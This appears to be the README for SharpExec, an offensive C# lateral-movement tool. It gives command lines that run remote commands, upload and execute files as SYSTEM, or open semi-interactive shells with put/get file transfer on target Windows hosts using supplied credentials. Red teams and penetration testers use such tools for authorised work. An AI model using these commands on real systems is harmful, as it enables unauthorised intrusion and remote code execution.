 # SharpExec

Description
============

SharpExec is an offensive security C# tool designed to aid with lateral movement. 

It currently includes:

-WMIExec - Semi-Interactive shell that runs as the user. Best described as a less mature version of Impacket's wmiexec.py tool.

-SMBExec - Semi-Interactive shell that runs as NT Authority\System.  Best described as a less mature version of Impacket's smbexec.py tool.

-PSExec (like functionality) - Gives the operator the ability to execute remote commands as NT Authority\System or upload a file and execute it with or without arguments as NT Authority\System.

-WMI - Gives the operator the ability to execute remote commands as the user or upload a file and execute it with or without arguments as the user.

In the Future I would like to add:

Lateral movement through DCOM
Pass the hash functionality

Contact at:
- Twitter: @anthemtotheego

Quick blog:

https://blog.redxorblue.com/2018/10/sharpcradle-loading-remote-c-binaries.html

**Before submitting issues, this tool may not always be updated actively. I encourage you to borrow, add, mod, and/or make your own.  Remember, all the awesome code out there (and there is a lot) can be taken/modified to create your own custom tools.**

![Alt text](/sharpexec.PNG?raw=true "SharpExec")

Setup - Quick and Dirty
==============================

**Note: For those of you who don't want to go through the trouble of compiling your own I uploaded an x64 and x86 binary found in the CompiledBinaries folder.  For those of you who do want to compile your own... I used Windows 10, Visual Studio 2017 - mileage may vary**

1. Download SharpExec tool and open up SharpExec.sln  

2. Open up SharpExec.sln in Visual Studio and compile (make sure to compile for correct architecture) - Should see drop down with Any CPU > Click on it and open Configuration Manager > under platform change to desired architecture and select ok.

3. Inside visual studio, right click References on the righthand side, choose Add Reference, then under Assemblies, search for System.Management, check the box and click OK.

4. Compile, again make sure for the correct architecture (x64 or x86), drop binary on computer or pull into memory and have fun.

Examples 
========

Note - All modules require Administrative rights on the target systems
Note - If the user who runs SharpExec has administrative rights to the target system, username/password/domain options on not required.

PSExec Module:

Uploads file from User1's desktop to C:\ on remote system and executes it as NT Authority\System

```SharpExec.exe -m=psexec -i=192.168.1.10 -u=TargetUser -p=P@ssword! -d=TargetDomain -f=C:\users\user1\desktop\noPowershell-noargs.exe -e=C:\noPowershell-noargs.exe```

Runs command via cmd.exe on target system as NT Authority\System

```SharpExec.exe -m=psexec -i=192.168.1.10 -u=TargetUser -p=P@ssword! -d=TargetDomain -e=C:\Windows\System32\cmd.exe -c="My Args"```

WMI Module:

Uploads file from User1's desktop to C:\ on remote system and executes it as TargetUser

```SharpExec.exe -m=wmi -i=192.168.1.10 -u=TargetUser -p=P@ssword! -d=TargetDomain -f=C:\users\user1\desktop\noPowershell-noargs.exe -e=C:\noPowershell-noargs.exe```

Runs command via cmd.exe on target system as TargetUser

```SharpExec.exe -m=wmi -i=192.168.1.10 -u=TargetUser -p=P@ssword! -d=TargetDomain -e=C:\Windows\System32\cmd.exe -c="My Args"```

WMIExec Module:

Starts semi-interactive shell on remote system as TargetUser

```SharpExec.exe -m=wmiexec -i=192.168.1.10 -u=TargetUser -p=P@ssword! -d=TargetDomain```

While shell is running

<pre>
put                  Upload file from local directory to current shell directory, put fullLocalPath\\File.txt File.txt
get                  Download file from current shell directory to local directory, get File.txt fullLocalPath\\File.txt
help                 Show help menu
exit                 exit shell
</pre>

SMBExec Module:

Starts semi-interactive shell on remote system as NT Authority\System

```SharpExec.exe -m=smbexec -i=192.168.1.10 -u=TargetUser -p=P@ssword! -d=TargetDomain```

While semi-interactive shell is running

<pre>
put                  Upload file from local directory to current shell directory, put fullLocalPath\\File.txt File.txt
get                  Download file from current shell directory to local directory, get File.txt fullLocalPath\\File.txt
help                 Show help menu
exit                 exit shell
</pre>



